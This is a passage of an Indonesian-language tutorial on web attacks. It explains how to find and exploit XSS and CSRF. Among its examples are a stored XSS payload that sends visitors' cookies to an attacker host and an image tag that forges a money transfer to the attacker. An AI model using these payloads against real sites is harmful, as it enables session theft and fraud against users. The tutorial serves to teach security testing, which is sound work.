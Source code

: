**Cara Enumerasi:**
- **Input Fields:** Coba masukkan skrip sederhana seperti `<script>alert('XSS')</script>` di form input.
- **URL Parameters:** Manipulasi parameter URL untuk melihat apakah skrip dijalankan.
- **Automated Scanners:** Gunakan Burp Suite atau OWASP ZAP untuk mendeteksi XSS.

**Cara Eksploitasi:**
- **Reflected XSS:** Skrip dieksekusi langsung dari input pengguna tanpa disanitasi.
- **Stored XSS:** Skrip disimpan di database dan dieksekusi setiap kali halaman dimuat.

**Contoh Payload:**
```html
<script>alert('XSS')</script>
```

**Eksploitasi Detail:**
1. **Reflected XSS:**
   - **Payload:** `<script>alert('XSS')</script>`
   - **Proses:**
     - Penyerang memasukkan payload di kolom pencarian atau form komentar.
     - Jika aplikasi tidak menyanitasi input, skrip tersebut akan direfleksikan kembali ke browser pengguna.
     - Saat halaman dimuat, skrip dieksekusi dan menampilkan alert box dengan pesan 'XSS'.
     - Ini dapat dimanfaatkan untuk mencuri cookie pengguna atau melakukan tindakan tidak sah lainnya.

2. **Stored XSS:**
   - **Payload:** `<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>`
   - **Proses:**
     - Penyerang memasukkan payload di kolom komentar atau form input yang disimpan di database.
     - Setiap kali pengguna lain mengakses halaman tersebut, skrip akan dieksekusi di browser mereka.
     - Skrip dapat mengirimkan cookie pengguna ke server penyerang atau melakukan tindakan berbahaya lainnya.

---

### **3. Cross-Site Request Forgery (CSRF)**

**Apa itu?**
CSRF membuat pengguna yang sudah terautentikasi melakukan tindakan yang tidak diinginkan di aplikasi web tanpa sepengetahuan mereka, seperti transfer uang atau perubahan data profil.

**Cara Enumerasi:**
- **Token Absence:** Cek apakah aplikasi menggunakan token CSRF di form atau header.
- **SameSite Cookies:** Periksa pengaturan cookie untuk atribut `SameSite`.

**Cara Eksploitasi:**
- **Crafted Requests:** Buat halaman web lain yang secara otomatis mengirimkan permintaan ke aplikasi target saat pengguna mengunjungi halaman tersebut.

**Contoh:**
```html
<img src="https://target.com/transfer?amount=1000&to=attacker" />
```

**Eksploitasi Detail:**
1. **Membuat Halaman Palsu:**
   - Penyerang membuat halaman web palsu yang berisi tag `<img>` atau form tersembunyi yang mengirimkan permintaan ke aplikasi target.
   - **Payload:** `<img src="https://target.com/transfer?amount=1000&to=attacker" />`
   - Ketika pengguna yang sudah login di aplikasi target mengunjungi halaman palsu ini, browser mereka secara otomatis mengirimkan permintaan transfer uang ke aplikasi target.
   - Karena permintaan datang dari browser pengguna yang sudah terautentikasi, aplikasi target menganggap permintaan tersebut sah dan mengeksekusinya, sehingga uang dialihkan ke akun penyerang.
